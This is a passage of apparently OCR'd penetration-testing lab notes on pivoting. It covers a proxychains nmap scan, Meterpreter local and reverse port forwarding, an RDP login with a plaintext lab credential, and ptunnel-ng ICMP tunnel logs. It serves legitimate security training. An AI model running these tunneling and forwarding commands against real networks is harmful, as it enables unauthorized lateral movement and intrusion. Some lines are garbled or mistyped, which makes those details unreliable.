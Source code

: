 ### **Testing Proxy & Routing Functionality**

```
dollarboysushil@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -PnProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```

# **Port Forwarding**

This can be achieved using `portfwd` module. We can enable a listener on our attack host and request meterpreter to forward all the packets received on this port via our meterpreter session to a remote host on the `172.16.5.0/23` network.

```
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

The above command requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server `172.16.5.19` on `3389` port (`-p`) via our Meterpreter session.

Then we can create remote desktop session using xfreerdp `localhost:300`

`xfreerdp /v:localhost:3300 /u:victor /p:pass@123`

# **Meterpreter Reverse Port Forwarding (remote port forwarding)**

 We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

We can create a reverse port forward on our existing shell from the previous scenario using the below command. This command forwards all connections on port `1234` running on the Ubuntu server to our attack host on local port (`-l`) `8081`. We will also configure our listener to listen on port 8081 for a Windows shell.

### **Reverse Port Forwarding Rules**

```
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.